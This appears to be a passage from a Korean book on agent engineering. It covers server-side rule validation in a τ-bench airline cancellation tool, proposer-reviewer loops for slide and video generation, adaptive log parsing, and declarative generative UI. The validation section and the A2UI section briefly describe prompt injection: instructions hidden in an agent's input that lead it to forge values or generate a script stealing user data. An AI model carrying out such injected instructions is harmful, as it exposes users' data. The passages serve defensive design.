규칙을 검증 도구로 코드화하면 세 가지 장점이 있다. **정확하고 모호하지 않은 의사결정 논리**, 같은 입력에서 항상 같은 출력이 나오는 **결정론적 실행**, 다중 조건 불 논리, 시간 계산, 데이터 소스 간 검증 같은 **복잡한 규칙 조합**의 효과적인 처리가 가능하다.

실무에서는 둘을 함께 사용해야 한다. 시스템 프롬프트에는 이해와 커뮤니케이션을 위한 자연어 규칙을 넣고, 핵심 의사결정 지점에는 규정 준수를 보장하는 “문지기” 역할의 코드화된 검증 도구를 둔다.

코드화된 규칙의 진정한 가치는 토큰 효율이 아니라 **되돌릴 수 없는 실수를 막는 것**이다. 주문 취소, 자금 이체, 데이터 삭제는 실행하고 나면 되돌릴 수 없을지 모른다. 코드화된 검증은 작업 앞에 최후의 방어선을 세우며, 그 보장이 주는 가치는 구현 비용보다 훨씬 크다.

**검증과 실행의 결합: 체크리스트는 사고를 이끌고 기준 데이터 검증은 문을 지킨다**

별도의 검증 도구를 만드는 대신 실행 도구 안에 검증을 넣는다. 항공사와 전자상거래 고객 서비스 시뮬레이션에서 도구 사용과 정책 준수를 평가하도록 설계된 벤치마크인 τ-bench의 항공편 취소 정책을 살펴보자.

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

이 설계의 가치는 두 수준에서 이해해야 한다.

**첫 번째 수준: 사고 체크리스트 역할의 매개변수.** 도구 설명에는 전체 취소 정책이 나열되어 있고, 모델이 “호출하기 전에 주문 세부 정보를 조회하고 각 조건을 하나씩 확인”하도록 요구한다. 선택 사항인 `expected_*` 매개변수는 모델이 자신의 사고를 명시적으로 작성하게 한층 더 유도한다. 이 매개변수를 채우려면 모델이 먼저 조회 도구를 호출해 주문 세부 정보를 얻고 각 조건을 하나씩 검증해야 한다. 따라서 매개변수를 채우는 행위가 **의무 체크리스트** 역할을 한다. 좌석 등급이 이코노미이고 보험에 가입하지 않았다는 사실을 파악한 모델은 호출을 준비하면서 규칙 5를 발견해 **호출을 시작하지 않고**, 사용자에게 “보험에 가입하지 않은 이코노미석은 취소할 수 없습니다. 보험 가입 후 취소하거나 예약 변경을 고려해 보세요”라고 직접 알릴 수 있다. 이 계층은 사고를 이끌고 유효하지 않은 호출을 줄이지만 보안 경계는 아니다. `expected_*` 값은 자체 보고한 주장일 뿐 서버가 신뢰하는 사실이 아니다.

**두 번째 수준: 문지기 역할의 서버 측 기준 데이터 검증.** 코드의 핵심 설계에 주목하자. 좌석 등급, 보험 가입 여부, 예약 시각, 구간 이용 여부, 항공편 상태는 모두 서버가 데이터베이스에서 조회하고 현재 시각은 서버 시계에서 가져온다. **어떤 정책 사실도 모델이 자체 보고한 매개변수에서 가져오지 않는다.** 이는 불필요한 중복이 아니다. 모델은 환각을 일으키거나 프롬프트 인젝션에 조작될 수 있으며, 앞의 치명적 삼각 구도 분석에서 살펴봤듯 단일 컨텍스트 안에서 작동하는 에이전트는 자신의 행동을 신뢰성 있게 검증할 수 없다. `cabin_class`, `has_insurance`, 심지어 `current_time`까지 모델이 채우는 매개변수로 설계하면 우연이든 유도된 것이든 거짓 값 하나로 문지기를 우회할 수 있다. 최후의 방어선은 모델이 위조할 수 없는 데이터 위에 구축해야 한다. 이는 “중요한 작업에는 독립적인 검증이 필요하다”는 앞의 입장과 일치한다. 여기서 독립성이란 독립된 모델뿐 아니라 독립된 데이터 소스도 뜻한다.

이로써 3단계 보호 장치가 완성된다. (1) 시스템 프롬프트의 자연어 규칙은 이해와 설명을 돕는다. (2) 도구 설명과 매개변수 설계는 체크리스트 역할을 하며, 모델이 호출 전에 조건을 명시적으로 검증하게 이끈다. (3) 데이터베이스 기준 데이터를 사용하는 서버 측 코드 검증은 최종 문지기 역할을 한다. 앞의 두 계층은 오류 발생을 줄이고, 세 번째 계층은 오류가 되돌릴 수 없는 손실로 이어지지 않게 한다.

> **실험 5-3 ★★: 코드 기반 지식으로 소형 모델의 규칙 실행 정확도 향상**
>
> **실험 목표**: 복잡한 비즈니스 규칙을 코드로 인코딩하면 소형 모델(Qwen3-4B)이 규칙을 실행하는 정확성과 일관성이 크게 향상되는지 검증한다.
>
> **기술적 접근법**: τ-bench 항공사 고객 서비스 시나리오를 바탕으로 대조 실험을 설계한다. **대조군**: 순수 자연어 규칙을 사용하고 모델 자체의 사고에 의존한다. **실험군**: 3단계 보호 장치를 사용한다. 시스템 프롬프트에는 자연어 규칙을 유지한다. 도구 설명에는 전체 정책을 나열하고 선택 사항인 `expected_*` 매개변수로 모델이 호출 전에 각 조건을 하나씩 확인하도록 유도한다(체크리스트). 도구 내부에서는 모의 데이터베이스 기준 데이터를 바탕으로 코드 기반 검증을 수행한다. 모든 정책 사실은 데이터베이스에서 얻고, 시각은 서버 시계에서 가져오며, 모델이 자체 보고한 매개변수는 신뢰하지 않는다. 평가 지표는 작업 성공률, 정책 위반 수, 유효하지 않은 도구 호출 수, 사용자 경험이다.
>
> **예상 결과**: 실험군의 성능이 대조군보다 크게 높다. 더 중요한 점은 모델이 매개변수를 준비하면서 정책 위반을 자율적으로 식별하고 도구를 호출하지 않은 채 대안을 제시한다는 것이다. 이는 매개변수가 체크리스트로서 지닌 가치를 보여 준다. 마지막으로 자체 보고한 `expected_*` 값과 데이터베이스 기준 데이터의 불일치율을 측정해 사고 오류를 잡는 데 서버 측 검증이 필요한 이유를 보여 준다.
>

### 코드 기반 멀티미디어 생성

복잡한 문서를 만드는 일은 본질적으로 구조화된 데이터를 구성하고 표현하는 작업이다. 프레젠테이션, 기술 보고서, 상호작용형 애플리케이션 모두 기반 구조를 코드로 정의한다. HTML은 구조를 설명하고, CSS는 스타일을 제어하며, JavaScript는 상호작용을 구현한다. 전통적인 문서 제작은 GUI 기반 위지위그(WYSIWYG) 편집기에 의존한다. 시각적으로 해석하고 포인터를 정밀하게 배치해야 하므로 에이전트에는 잘 맞지 않는다. 에이전트는 코드 생성을 통해 시각적 위치 지정의 어려움을 우회하고 문서를 정밀하게 제어한다. 각 요소의 위치, 스타일, 내용을 명확히 정의하고 프로그램으로 수정하고 최적화할 수 있다.

**PPT 생성 에이전트.**

PPT 제작은 손이 많이 가기로 유명하다. 일반적인 학술 발표는 수십 장의 슬라이드로 이루어지며, 슬라이드마다 세심한 레이아웃, 핵심 내용의 압축, 적절한 차트 선택이 필요하다. 그러나 PPT 제작을 코드 생성 문제로 바꾸어 보면 복잡성 대부분이 사라진다. Slidev 같은 현대 프레젠테이션 프레임워크는 콘텐츠를 Markdown과 HTML로 정의한다는 우아한 설계 철학을 따른다. 간결한 마크업 몇 줄로 슬라이드를 만들면 프레임워크가 렌더링, 레이아웃, 애니메이션을 처리한다. 코드 생성을 익힌 에이전트에는 이상적인 영역이다.



하지만 코드를 생성하는 것만으로는 충분하지 않다. **에이전트는 코드를 작성한 뒤에도 결과가 실제로 어떻게 렌더링되는지 알지 못한다.** 콘텐츠가 너무 빽빽한지, 텍스트가 영역을 넘치는지, 이미지 크기가 잘못되었는지는 슬라이드를 실제로 렌더링해야 볼 수 있다. 따라서 그림 5-5의 **제안자-검토자(Proposer-Reviewer)** 메커니즘으로 코드 생성과 품질 검토를 독립된 두 에이전트에 맡겨야 한다.

- **제안자 에이전트**는 Slidev 코드를 생성하고 콘텐츠의 논리 구조를 이해해 적절한 페이지로 나눈다.
- **검토자 에이전트**는 코드를 실행해 각 페이지를 이미지로 렌더링하고, 이미지를 “볼” 수 있는 멀티모달 대규모 모델인 비전 LLM(Vision LLM)으로 렌더링된 슬라이드의 콘텐츠 밀도, 가독성, 레이아웃 품질, 시각적 매력을 평가한다. 그런 다음 막연히 “보기 좋지 않다”가 아니라 “3페이지: 내용이 너무 많으므로 분할을 고려할 것”, “7페이지: 코드 블록 글꼴이 너무 작으므로 14pt로 키울 것”처럼 구체적이고 실행 가능한 **구조화된 개선 제안**을 생성한다. 제안에는 페이지 번호, 문제 유형, 심각도 같은 필드가 포함된다.

제안자는 피드백을 받아 해석하고 코드를 수정한 뒤 새 버전을 검토자에게 다시 제출한다. 프레젠테이션이 품질 기준을 충족하거나 최대 반복 횟수, 예를 들어 다섯 라운드에 이를 때까지 이 주기를 계속한다. “품질 기준 충족”과 “최대 라운드”는 루프 엔지니어링이 요구하는 두 종류의 명시적 중지 조건이다. 전자는 검토자가 목표 달성 여부를 결정하게 하고, 후자는 루프가 통제 불능으로 이어지지 않게 하는 예산 상한이다.

이 제안자-검토자 루프는 에이전트 하나가 생성하고 다른 하나가 독립적으로 평가한다는 점에서 4장의 **사전 승인** 메커니즘과 같은 패턴을 따른다. 다만 두 적용 사례는 목적과 워크플로가 다르다. 4장에서는 되돌릴 수 없는 단일 작업을 승인하거나 거부하는 데 이 패턴을 사용한다. 여기서는 제안자가 볼 수 없는 렌더링 출력을 검토자가 확인하며 여러 라운드에 걸친 콘텐츠의 반복 개선을 이끈다. 핵심 설계 원칙은 같다. 목표 제약을 공유하고, 서로 다른 모델 계열을 사용해 비슷한 오류가 날 확률을 낮추며, 피드백을 특별 이벤트로 제안자의 궤적에 추가한다. 단일 에이전트 루프 대신 두 에이전트가 분업할 때의 **핵심 장점**은 **컨텍스트 관리**에 있다. 검토자는 과거 버전의 영향을 받지 않고 최신 버전의 렌더링 이미지만 처리한다. 제안자는 구조화된 텍스트 피드백만 축적하므로 토큰을 덜 쓰고 더 쉽게 사고한다. 단일 에이전트 방식이라면 수십 페이지에 걸쳐 여러 라운드에서 나온 렌더링 이미지를 같은 컨텍스트에 축적해야 하므로 곧 컨텍스트 제한을 넘는다. 뒤의 동영상 편집과 로그 시각화 실험에서도 이 메커니즘을 다시 사용한다. 10장에서는 제안자-검토자 패러다임을 넘어선 다른 멀티 에이전트 협업 방식도 살펴본다.

> **실험 5-4 ★★: 논문에서 PPT 자동 생성**
>
> **실험 목표**: 학술 논문에서 고품질 프레젠테이션을 자동으로 생성하고, 콘텐츠 제작 품질을 관리하는 제안자-검토자 메커니즘의 효과를 검증한다.
>
> **기술적 접근법**: Slidev 프레임워크를 사용한다. 제안자 에이전트가 논문 PDF를 읽고 장 구조, 핵심 주장, 그림을 추출해 PPT 구조를 계획하고 페이지별 Slidev 코드를 생성한다. **핵심 단계**: 검토자 에이전트가 각 슬라이드를 렌더링해 스크린샷을 찍고 비전 LLM으로 텍스트 넘침, 콘텐츠 과밀, 부적절한 이미지 크기를 평가한다. 프레젠테이션이 품질 기준을 충족할 때까지 제안자와 검토자가 반복한다.
>
> **인수 기준**: 논문의 주요 기여를 다루는 10~20장의 슬라이드를 생성한다. 함께 배치한 텍스트와 잘 맞는 원본 그림을 최소 3개 포함한다. 렌더링할 때 텍스트가 넘치지 않고 레이아웃이 적절해야 한다. 단일 에이전트 자체 검토와 제안자-검토자 분업의 컨텍스트 소비량 및 생성 품질을 비교한다.
>

> **실험 5-5 ★★: 논문 해설 동영상 자동 생성**
>
> **실험 목표**: PPT 생성 능력을 확장하고 시각 및 청각 채널을 결합해 해설 동영상을 자동으로 생성한다.
>
> **기술적 접근법**: 실험 5-4의 프레젠테이션 워크플로를 바탕으로 에이전트가 각 슬라이드의 대화체 내레이션도 생성한다. 슬라이드 텍스트를 반복하지 않고 시청자의 이해를 이끈다. 음성 합성(TTS)으로 오디오를 만들고 FFmpeg로 슬라이드 이미지와 오디오를 결합해 최종 동영상을 제작한다.
>
> **인수 기준**: 5~15분 길이의 동영상을 제작한다. 각 슬라이드의 표시 시간이 내레이션 길이와 정확히 일치하고, 내레이션은 시각 요소와 맞아야 한다.
>
>
> 
>
>

**동영상 편집 에이전트.**

범용 컴퓨터 사용 인터페이스로 동영상을 편집할 때는 근본적인 장애물이 있다. 동영상 편집 GUI는 타임라인, 레이어, 효과 패널이 빽빽하게 배치되어 매우 복잡하다. 에이전트는 마우스와 키보드로 이 요소들을 찾아 조작해야 하지만, 모델은 여기에 필요한 정확한 좌표를 생성하기 어려워한다.

동영상 편집을 API 호출과 코드 생성 문제로 바꾸면 복잡성이 크게 줄어든다. Python 스크립팅을 지원하는 오픈 소스 3D 제작 및 동영상 합성 도구인 Blender, 오디오·동영상 처리를 위한 명령줄의 만능 도구인 FFmpeg 등 많은 전문 소프트웨어는 핵심 기능을 구조화하고 조합할 수 있게 노출하는 프로그래밍 API 인터페이스를 제공한다. 예를 들어 Blender Python API를 사용하면 동영상 클립 가져오기, 자르기, 배치, 전환 효과 추가, 오디오 믹싱 같은 작업을 정밀하게 제어할 수 있으며, 각 작업은 명확한 함수 호출에 대응한다. 에이전트가 GUI 인터페이스를 이해하고 마우스 클릭을 모사하는 것보다 자연어 요구 사항을 API 호출로 변환하는 편이 훨씬 쉽다. PPT 생성과 마찬가지로 동영상 편집에도 제안자-검토자 메커니즘을 사용한다. 제안자 에이전트가 Blender 스크립트를 생성하고, 검토자 에이전트가 키프레임을 렌더링한 뒤 비전 LLM으로 효과를 검사해 수정 피드백을 제공한다.

> **실험 5-6 ★★: API 기반 지능형 동영상 편집**
>
> **실험 목표**: Blender Python API 코드를 생성해 동영상을 편집하는 에이전트의 능력을 검증하고, 시각 피드백 기반 제안자-검토자 메커니즘이 멀티미디어 콘텐츠 처리에서 하는 역할을 평가한다.
>
> **핵심 과제**: 사용자의 자연어 편집 요구 사항을 이해해 정밀한 API 호출 순서로 변환하고, 자르기, 병합, 자막, 오디오 트랙 믹싱, 시각 효과 같은 다양한 편집 작업을 처리하며, 생성한 Python 스크립트가 올바르게 실행되도록 해야 한다. 제안자 에이전트는 코드를 작성한 뒤 동영상 효과를 직접 판단할 수 없으므로 검토자 에이전트가 렌더링하고 비전 LLM으로 키프레임을 검사하는 과정에 의존해야 한다.
>
> **기술적 접근법**: 사용자가 서핑, 하이킹, 스키 같은 장면이 담긴 원본 영상 자료를 제공하고 “서핑 부분을 잘라 내라”처럼 자연어로 요구 사항을 설명한다. 제안자 에이전트는 동영상 분석 하위 에이전트와 **2단계 위치 탐색 전략**을 사용한다.
>
> **1단계, 거친 위치 탐색**: 동영상 경로, 10초의 프레임 샘플링 간격, 대상 질문을 전달해 하위 에이전트를 호출한다. 하위 에이전트는 ffmpeg로 해당 간격마다 프레임을 캡처하고 스크린샷과 질문을 비전 LLM에 보낸 뒤 “서핑 장면은 40~110초 사이”와 같은 장면 구간을 반환한다.
>
> **2단계, 세밀한 위치 탐색**: 더 좁은 범위에서 하위 에이전트를 다시 호출하고 초당 한 프레임을 샘플링해 경계를 정확히 찾는다.
>
> 동영상 분석을 하위 에이전트로 캡슐화하면 수많은 스크린샷이 주 에이전트의 컨텍스트를 차지하는 일을 막을 수 있다. 위치를 찾고 나면 제안자가 Blender API 스크립트를 생성한다. 검토자 에이전트는 빠른 미리보기를 수행하고 키프레임을 확인한 뒤 수정 피드백을 제공한다. 기준을 충족할 때까지 반복한 다음 전체를 렌더링한다.
>
> **인수 기준**: 에이전트가 동영상의 여러 장면을 정확히 식별하고 자연어 지시에 따라 편집 스크립트를 올바르게 생성한다. 시작점과 끝점은 오차 3초 이내로 정확해야 한다. 지시에 슬로 모션, 전환, 자막 같은 특수 효과 요구 사항이 있으면 생성한 동영상에 효과를 올바르게 적용해야 한다. 검토자 에이전트는 핵심 콘텐츠 누락이나 무관한 구간 포함 같은 명백한 오류를 감지해 교정을 시작할 수 있어야 한다. 최종 출력 동영상 파일의 형식이 올바르고 기대 품질을 충족해야 한다.
>

### 시스템 어댑터로서의 코드

앞 절의 코드는 주로 보고서, 슬라이드, 인터페이스처럼 “사람을 위한” 것을 만든다. 이 절의 코드는 **기계와 기계를 연결하는** 다른 방향을 향한다. 실제 시스템에서 에이전트가 통신해야 하는 외부 서비스에는 완성된 SDK가 없는 경우가 많고, 인터페이스도 좀처럼 깔끔하지 않다. 문서가 없거나 응답 형식이 비표준일 수 있고, 버전에 따라 필드가 달라질 수 있다. 에이전트는 미리 만든 어댑터를 기다릴 필요가 없다. API 문서를 읽거나 실제 응답 몇 개를 살펴본 뒤 필요할 때 어댑터를 생성할 수 있다. HTTP 클라이언트를 구성하고, 인증 헤더를 조립하고, 비표준 응답 구조를 파싱하며, 상위 데이터 모델을 하위 시스템이 사용할 수 있는 형태로 변환한다. 여기서 코드는 임의의 시스템을 연결하는 “범용 접착제”다. 틈이 있는 곳마다 필요할 때 접착제를 만들어 메운다. 이것이 메타 능력의 “시스템 인터페이스” 방향에서 핵심이다. 뒤에서 다룰 적응형 로그 파싱은 이 능력을 관측 가능성 환경에 구체화한 사례다. 끊임없이 변하는 로그 형식을 마주하면 에이전트는 즉석에서 파싱 코드를 생성해 적응한다.

이 “범용 접착제”는 **API가 전혀 없는 시스템**으로도 확장할 수 있다. 외부 시스템이 그래픽 인터페이스만 제공한다면 에이전트가 먼저 9장에서 자세히 다룰 컴퓨터 사용으로 인터페이스를 조작한 뒤, 성공한 조작 순서를 코드로 작성한 RPA 도구로 고정할 수 있다. 다음번에 같은 작업이 생기면 비용이 큰 시각적 사고 없이 코드를 실행하기만 하면 되므로 빠르고 안정적이다. RPA는 시스템 어댑터를 극한까지 확장한 형태, 즉 프로그래밍 인터페이스가 없는 시스템을 위한 어댑터라고 할 수 있다. 이러한 “워크플로 기록과 고정” 메커니즘은 8장에서 자세히 다룬다.

데이터 처리는 소프트웨어 시스템에서 가장 흔하면서도 가장 번거로운 작업 가운데 하나다. 데이터 형식이 다양하고 끊임없이 변하기 때문이다. 하나의 시스템도 발전하면서 새 필드를 추가하고 중첩 구조를 바꾸고 새 타입을 도입하는 등 형식을 여러 번 바꿀 수 있다. 형식마다 파서를 직접 작성하면 유지보수 비용이 매우 크다. 변경할 때마다 파싱 논리를 업데이트하고 호환성을 테스트해 새 버전을 배포해야 한다.

코드 생성은 완전히 다른 접근법을 제공한다. 에이전트가 새로운 형식을 만나면 예시 데이터로 즉석에서 파싱 코드를 생성하므로 사람이 개입하지 않아도 시스템이 형식의 변화를 자동으로 따라간다.

**에이전트 로그 파싱과 시각화.**

에이전트 시스템의 관측 가능성은 실행 흐름의 시각화에 달려 있다. 복잡한 에이전트 작업은 여러 번의 LLM 호출, 수십 번의 도구 실행, 여러 하위 에이전트의 상호작용을 포함해 수백 단계로 이루어질 수 있다. 이 데이터를 시각화할 때는 여러 문제가 생긴다. 도구마다 반환하는 데이터 구조가 다르고 시스템이 반복 개선되면서 형식도 발전한다. 완전한 궤적은 수십만 자에 이를 수 있어 개요와 세부 정보 사이의 균형을 잡아야 한다.

코드 생성은 자동 복구 피드백 루프라는 우아한 해법을 제공한다. 프런트엔드가 파싱할 수 없는 로그 형식을 만나면 오류를 표시하는 대신 원시 로그 예시와 상세 오류 같은 실패 정보를 에이전트에 자동으로 보고한다. 에이전트는 예시 데이터 구조를 분석해 올바르게 파싱할 수 있는 프런트엔드 코드를 생성한다. 먼저 가상 브라우저에서 코드를 자동으로 테스트해 파싱 정확성을 검증하고, 비전 LLM이 시각화를 평가한다. 두 검사를 모두 통과하면 핫 업데이트로 프런트엔드에 배포한다.

> **실험 5-7 ★★★: 적응형 로그 파싱 시스템**
>
> **실험 목표**: 스스로 진화하는 에이전트 로그 시각화 시스템을 구축한다.
>
> **기술적 접근법**: 초기 시스템은 기본 형식만 지원한다. 프런트엔드의 파싱 실패 감지 → 에이전트에 보고 → 파싱 코드 생성 → 가상 브라우저 테스트 → 핫 업데이트 배포의 전 과정을 자동화한다.
>
> **인수 기준**: 실패를 자동으로 감지해 학습을 시작하고, 자동 테스트를 통과하는 코드를 생성하며, 핫 업데이트 후 새 형식을 올바르게 파싱한다.
>

**에이전트 실행 로그의 자동 분석과 문제 진단.**

프로덕션 에이전트는 각 작업의 전체 과정을 기록한 궤적 로그를 대량으로 생성한다. 그러나 이 로그에서 문제를 식별하고 근본 원인을 찾으며 테스트 케이스를 만드는 일에는 비용이 많이 든다. 여러 모듈의 상호작용에서 실패가 발생할 수 있어 근본 원인을 분리하기 어렵다. 테스트 환경이 프로덕션의 복잡성을 온전히 재현하는 경우가 드물어 실패 재현 비용도 클 수 있다. 마지막으로 수정 사항을 체계적인 회귀 테스트로 다루지 않으면 버그가 반복되는 경우가 많다.

코드 생성은 진단을 자동화하는 경로를 제공한다. 에이전트는 프로덕션 로그를 읽고 아키텍처 문서 및 제품 요구 사항 문서(PRD, Product Requirement Document)와 결합해 실행 흐름이 기대에 맞는지 자동으로 판단하고, 문제가 있는 구성 요소와 모듈을 정확히 찾아낸다. 분석 결과를 바탕으로 우선순위, 모듈, 설명, 개선 제안이 담긴 구조화된 문제 보고서와 회귀 테스트 케이스를 생성한다. 테스트 케이스는 문제 궤적 ID와 핵심 상호작용 라운드를 참조하며, 테스트 프레임워크가 자동으로 재생해 수정한 시스템이 같은 입력에서 올바르게 동작하는지 검증한다. 마지막으로 에이전트가 MCP를 통해 GitHub에 연결해 이슈를 만들고 관련 개발자에게 할당한다. 문제 발견부터 작업 할당까지 전 과정을 자동화하는 것이다.

> **실험 5-8 ★★★: 프로덕션 로그 지능형 진단 시스템**
>
> **실험 목표**: 프로덕션 궤적에서 문제를 자동으로 발견하고 테스트 케이스와 작업 항목을 생성한다.
>
> **기술적 접근법**: 에이전트가 프로덕션 궤적 집합을 시스템 아키텍처 문서 및 PRD와 함께 분석해 문제 패턴과 관련 모듈을 식별한다. 그런 다음 우선순위, 모듈, 설명, 권장 개선 사항을 담은 구조화된 문제 보고서를 생성한다. 궤적 ID와 상호작용 라운드에 연결된 회귀 테스트도 만들며, 테스트 프레임워크가 이 케이스를 재생하고 결과를 검증한다. 마지막으로 MCP를 통해 GitHub 이슈를 생성한다.
>
>
> 
>
>

### 생성형 UI로서의 코드

전통적인 에이전트 시스템은 주로 일반 텍스트 대화로 사용자와 상호작용한다. 그러나 텍스트는 선형적인 1차원 매체이며 많은 시나리오에서 비효율적이다. 구조화된 정보를 수집하려면 긴 대화를 주고받아야 하고, 복잡한 데이터 관계를 일반 텍스트로 표현하기 어려우며, 사용자가 선택지 중 하나를 골라야 할 때 텍스트 목록은 시각적 인터페이스보다 훨씬 덜 직관적이다.

코드 생성은 이러한 한계를 넘어설 방법을 제공한다. 에이전트가 양식, 상호작용형 차트, 완전한 웹 애플리케이션까지 동적으로 생성해 정적인 텍스트 대화를 풍부한 멀티모달 상호작용으로 바꿀 수 있다. 에이전트가 인터페이스를 동적으로 생성하는 이 패턴을 **생성형 UI(Generative UI)**라고 한다.

**A2UI형 프로토콜: 생성형 UI 표준화.**

에이전트가 HTML과 JavaScript를 생성하고 클라이언트가 이를 직접 렌더링하고 실행하게 하면 근본적인 보안 위험이 생긴다. 생성 코드가 악성일 수 있기 때문이다. 예를 들어 누군가 입력에 지시를 의도적으로 숨기면 프롬프트 인젝션에 조작된 에이전트가 자신도 모르게 사용자 데이터를 몰래 훔치는 스크립트를 생성할 수 있다. 여기서는 인과관계가 중요하다. 에이전트 입력에 악성 지시를 섞은 **프롬프트 인젝션**이 원인이고, 그 결과로 생성된 악성 스크립트를 브라우저에서 실행해 데이터를 훔치는 행위는 전통적인 웹 사이트 간 스크립팅(XSS, Cross-Site Scripting)과 비슷하다. 공격 전체를 단순히 XSS라고 불러서는 안 된다. A2UI(Agent-to-User Interface) 같은 선언형 인터페이스 프로토콜은 더 안전한 접근법을 제공한다. 에이전트가 실행 코드를 직접 생성하는 대신 “'판매 데이터'라는 제목으로 3행 2열 표를 표시하라”와 같은 JSON “UI 설명 매니페스트”만 출력한다. 클라이언트는 미리 정의한 안전한 자체 구성 요소로 인터페이스를 렌더링한다. 식당 메뉴와 같다. 손님인 에이전트는 메뉴에 있는 요리인 사전 정의 구성 요소만 주문할 수 있고, 주방에 들어가 임의의 요리를 만드는 임의 코드 실행은 할 수 없다. 흔히 혼동하는 개념으로 CopilotKit이 제안한 AG-UI(Agent-User Interaction)가 있다. 이름은 비슷하지만 UI 설명 언어가 아니라 메시지, 도구 호출, 상태 패치 등 에이전트의 실행 상태를 프런트엔드에 스트리밍하는 **이벤트 및 전송 프로토콜**이다. A2UI 매니페스트 같은 UI 페이로드를 운반할 수도 있다. 두 프로토콜은 서로 보완하며 같은 선언형 인터페이스 범주의 사례로 묶어서는 안 된다.

